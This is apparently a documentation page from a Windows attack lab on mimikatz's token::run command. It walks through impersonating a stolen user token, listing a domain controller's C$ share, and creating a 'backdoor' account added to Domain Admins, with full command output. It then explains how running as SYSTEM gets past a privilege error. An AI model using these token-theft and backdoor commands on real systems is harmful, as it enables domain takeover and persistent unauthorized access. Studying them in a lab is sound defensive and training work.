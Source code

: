 # run

`token::run` executes a process with its token.

It has the following command line arguments:

* `/id`: Token id to use for the new process
* `/user`: Execute the process with the tokens of this user (instead of specifying the token ID)..
* `/process`: The process to run. By default, the command `whoami` is executed.

## Use Primary Token in new Process

List tokens of user to impersonate:

```
mimikatz # token::list /user:ffast
Token Id  : 0
User name : ffast
SID name  :
 
5332    {0;000563b2} 2 F 457263         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
4432    {0;000563b2} 2 F 2839551        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
668     {0;00050574} 0 D 329079         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (12g,24p)       Impersonation (Impersonation)
668     {0;000563e4} 2 L 353269         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
800     {0;000563e4} 2 L 456098         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
920     {0;000563e4} 2 L 380750         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
920     {0;000563e4} 2 L 387116         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,01p)       Impersonation (Identification)
920     {0;000563e4} 2 L 436160         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
[...]
```

Run a command using a specified token by it's token ID. By default, the command `whoami` is executed:

```
mimikatz # token::run /id:457263
Token Id  : 457263
User name :
SID name  :

676     {0;000f0ac5} 3 F 457263         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
winattacklab\ffast
```

Access DC system drive:

```
mimikatz # token::run /id:1075487 /process:"cmd.exe /c dir \\dc1\c$"
Token Id  : 1075487
User name :
SID name  :

7156    {0;000f0ac5} 3 F 1075487        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)
Primary
 Volume in drive \\dc1\c$ is Windows
 Volume Serial Number is 6A6C-0DE3

 Directory of \\dc1\c$

05/31/2023  06:30 AM    <DIR>          AzureData
05/31/2023  07:09 AM    <DIR>          ddns_server
05/31/2023  07:04 AM    <DIR>          inetpub
05/31/2023  06:46 AM    <DIR>          Packages
05/05/2023  11:31 AM    <DIR>          PerfLogs
05/31/2023  07:04 AM    <DIR>          Program Files
05/05/2023  12:26 PM    <DIR>          Program Files (x86)
05/31/2023  07:10 AM    <DIR>          terraform
05/31/2023  07:06 AM    <DIR>          Users
05/31/2023  07:05 AM    <DIR>          Windows
05/31/2023  06:33 AM    <DIR>          WindowsAzure
05/31/2023  07:07 AM    <DIR>          WSUS
               0 File(s)              0 bytes
              12 Dir(s)  15,918,473,216 bytes free
```

Add backdoor user:

```
mimikatz # token::run /id:1075487 /process:"cmd.exe /c net user backdoor Password.123 /add /domain && net group \"Domain Admins\" backdoor /add /domain && net user backdoor /domain"
Token Id  : 1075487
User name :
SID name  :

7156    {0;000f0ac5} 3 F 1075487        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
The request will be processed at a domain controller for domain winattacklab.local.

The command completed successfully.

The request will be processed at a domain controller for domain winattacklab.local.

The command completed successfully.

The request will be processed at a domain controller for domain winattacklab.local.

User name                    backdoor
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/20/2023 3:59:27 PM
Password expires             Never
Password changeable          6/20/2023 3:59:27 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Admins        *Domain Users
The command completed successfully.
```

## Demystifying the `kull_m_process_run_data` Error

Even as a local administrator, you can get the `kull_m_process_run_data` error:

```
mimikatz # token::run /id:1075487 /process:whoami.exe
Token Id  : 1075487
User name :
SID name  :

7156    {0;000f0ac5} 3 F 1075487        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
ERROR kull_m_process_run_data ; CreateProcessAsUser (0x00000522)
```

- The error message says that the `CreateProcessAsUser` function could not be executed.

The `token::run` command uses the function `CreateProceasAsUser` to create a
new process in the security context of the specified token and requires the
following privileges (source: [CreateProcessAsUserA function (processthreadsapi.h)](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera)):

- `SeIncreaseQuotaPrivilege` privilege
- `SeAssignPrimaryTokenPrivilege` privilege (if the token is not assignable)

A local admin has the permission to get the `SeIncreaseQuotaPrivilege` privilege but not the `SeAssignPrimaryTokenPrivilege` privilege:

```
mimikatz # privilege::name SeIncreaseQuotaPrivilege
Privilege '5' OK

mimikatz # privilege::name SeAssignPrimaryTokenPrivilege
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (3) c0000061
```

If you start mimikatz as `SYSTEM`, these privileges can be acquired:

```
mimikatz # privilege::name SeIncreaseQuotaPrivilege
Privilege '5' OK

mimikatz # privilege::name SeAssignPrimaryTokenPrivilege
Privilege '3' OK
```

Then, it's possible to use the `token::run` command and use stolen tokens as primary tokens.
